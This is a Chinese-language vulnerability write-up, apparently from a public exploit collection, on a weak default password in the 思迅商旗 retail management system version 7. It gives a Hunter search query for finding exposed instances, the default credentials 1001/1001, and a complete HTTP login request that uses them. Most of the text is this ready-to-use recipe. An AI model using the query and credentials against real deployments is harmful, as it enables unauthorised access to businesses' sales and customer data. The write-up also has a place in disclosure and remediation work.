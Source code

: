 # 思迅商旗商业管理系统7 存在弱口令漏洞

# 一、漏洞简介
思迅商旗商业管理系统是基于互联网部署的全新零售管理系统。提炼各架构优势之大成，打造全新互联网产品。思迅商旗商业管理系统7 存在弱口令漏洞。

# <font style="color:rgba(0, 0, 0, 0.9);">二、影响版本</font>
+ 思迅商旗商业管理系统7

# 三、资产测绘
+ hunter`app.name=="思迅商旗"`
+ 特征

![1705060048606-5d05fc49-9ceb-4db7-84e0-7304c7456bf4.png](./img/4pn1CRecNauCHbAK/1705060048606-5d05fc49-9ceb-4db7-84e0-7304c7456bf4-659934.png)

# 四、漏洞复现
```java
1001/1001
```

```java
POST /api/Login/Login HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Length: 68
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cache-Control: no-cache
Connection: close
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest

id=1001&password=1001&onlineQuery=true
```

![1705060724236-2371caa6-c4c6-4269-9a01-00f464020b31.png](./img/4pn1CRecNauCHbAK/1705060724236-2371caa6-c4c6-4269-9a01-00f464020b31-293689.png)

![1705060732228-0093a93b-e495-499e-ae31-e917007f0742.png](./img/4pn1CRecNauCHbAK/1705060732228-0093a93b-e495-499e-ae31-e917007f0742-006952.png)



> 更新: 2024-02-29 23:55:42  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/xmf6cin0839sge0f>